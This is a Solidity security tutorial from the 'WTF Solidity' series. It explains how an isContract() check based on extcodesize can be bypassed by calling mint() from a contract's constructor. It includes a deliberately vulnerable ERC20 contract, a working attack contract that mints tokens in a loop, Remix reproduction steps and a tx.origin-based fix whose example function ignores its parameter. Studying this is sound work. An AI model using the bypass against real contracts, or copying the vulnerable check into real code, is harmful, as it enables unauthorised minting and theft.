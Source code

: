 ```yaml
---
title: S08. Contract Check Bypassing
tags:
    - solidity
    - security
    - constructor
---
```


# WTF Solidity S08. Contract Length Check Bypassing

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will discuss contract length checks bypassing and introduce how to prevent it.

## Bypassing Contract Check

Many free-mint projects use the `isContract()` method to restrict programmers/hackers and limit the caller `msg.sender` to external accounts (EOA) rather than contracts. This function uses `extcodesize` to retrieve the bytecode length (runtime) stored at the address. If the length is greater than 0, it is considered a contract; otherwise, it is an EOA (user).

```solidity
    // Use extcodesize to check if it's a contract
    function isContract(address account) public view returns (bool) {
        // Addresses with extcodesize > 0 are definitely contract addresses
        // However, during contract construction, extcodesize is 0
        uint size;
        assembly {
          size := extcodesize(account)
        }
        return size > 0;
    }
```

Here is a vulnerability where the `runtime bytecode` is not yet stored at the address when the contract is being created, so the `bytecode` length is 0. This means that if we write the logic in the constructor of the contract, we can bypass the `isContract()` check.

![](./img/S08-1.png)

## Vulnerability Example

Let's take a look at an example: The `ContractCheck` contract is a free-mint ERC20 contract, and the `mint()` function uses the `isContract()` function to prevent calls from contract addresses, preventing hackers from minting tokens in batch. Each call to `mint()` can mint 100 tokens.

```solidity
// Check if an address is a contract using extcodesize
contract ContractCheck is ERC20 {
    // Constructor: Initialize token name and symbol
    constructor() ERC20("", "") {}
    
    // Use extcodesize to check if it's a contract
    function isContract(address account) public view returns (bool) {
        // Addresses with extcodesize > 0 are definitely contract addresses
        // However, during contract construction, extcodesize is 0
        uint size;
        assembly {
          size := extcodesize(account)
        }
        return size > 0;
    }

    // mint function, only callable by non-contract addresses (vulnerable)
    function mint() public {
        require(!isContract(msg.sender), "Contract not allowed!");
        _mint(msg.sender, 100);
    }
}
```

We will write an attack contract that calls the `mint()` function multiple times in the `constructor` to mint `1000` tokens in batch:

```solidity
// Attack using constructor's behavior
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // When the contract is being created, extcodesize (code length) is 0, so it won't be detected by isContract().
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // This will work
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // After the contract is created, extcodesize > 0, isContract() can detect it
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

If what we mentioned earlier is correct, calling `mint()` in the constructor can bypass the `isContract()` check and successfully mint tokens. In this case, the function will be deployed successfully and the state variable `isContract` will be assigned `false` in the constructor. However, after the contract is deployed, the runtime bytecode is stored at the contract address, `extcodesize > 0`, and `isContract()` can successfully prevent minting, causing the `mint()` function to fail.

## Reproduce on `Remix`

1. Deploy the `ContractCheck` contract.

2. Deploy the `NotContract` contract with the `ContractCheck` contract address as the parameter.

3. Call the `balanceOf` function of the `ContractCheck` contract to check that the token balance of the `NotContract` contract is `1000`, indicating a successful attack.

4. Call the `mint()` function of the `NotContract` contract. Since the contract has already been deployed, calling the `mint()` function will fail.

## How to Prevent

You can use `(tx.origin == msg.sender)` to check if the caller is a contract. If the caller is an EOA, `tx.origin` and `msg.sender` will be equal; if they are not equal, the caller is a contract.

```
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

## Summary

In this lecture, we introduced a vulnerability where the contract length check can be bypassed, and we discussed methods to prevent it. If the `extcodesize` of an address is greater than 0, then the address is definitely a contract. However, if `extcodesize` is 0, the address could be either an externally owned account (`EOA`) or a contract in the process of being created.